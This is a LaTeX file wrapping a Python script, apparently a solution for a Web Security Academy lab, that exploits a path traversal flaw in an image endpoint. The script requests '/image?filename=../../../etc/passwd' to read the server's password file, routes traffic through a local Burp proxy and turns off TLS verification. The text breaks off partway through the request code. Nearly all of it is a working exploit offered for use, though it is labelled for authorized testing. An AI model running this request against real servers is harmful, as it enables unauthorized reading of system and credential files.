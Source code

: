 \documentclass[11pt,letterpaper]{article}
\begin{document}
\par\noindent\begin{minipage}{\linewidth}
\captionsetup{hypcap=false}%
\end{minipage}\par\nopagebreak
\begin{verbatim}
#!/usr/bin/env python3
"""
File Path Traversal - Exploitation Script (Simple Case)

This script exploits a path traversal vulnerability in an image endpoint
to read arbitrary files from the server, demonstrating with /etc/passwd.

Usage: python3 exploit.py <BASE_URL>
Example: python3 exploit.py https://0aXXXX.web-security-academy.net

For authorized testing only.
"""

import sys
import re
import requests
import urllib3

# Disable SSL warnings for lab environments
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

# Burp Suite proxy configuration
PROXIES = {
    "http": "http://127.0.0.1:8080",
    "https": "http://127.0.0.1:8080"
}

def banner():
    """Print script banner."""
    print("""
    =====================================================
      File Path Traversal - Exploitation Script
      Directory Traversal / Arbitrary File Read
      For authorized security testing only
    =====================================================
    """)

def directory_traversal_exploit(url):
    """
    Exploit path traversal vulnerability.

    Args:
        url: Target base URL
    """
    # Construct exploit URL
    # The ../ sequences escape the base directory to reach /etc/passwd
    image_url = url + "/image?filename=../../../etc/passwd"

    print(f"[*] Target URL: {url}")
    print(f"[*] Exploit URL: {image_url}")
    print("[*] Exploiting directory traversal vulnerability...")
    print()

    try:
        # Send the exploit request
        response = requests.get(
            image_url,
            verify=False,      # Don't verify TLS certificates
            proxies=PROXIES,   # Route through Burp for debugging
            timeout=15
        )


\end{verbatim}
\end{document}
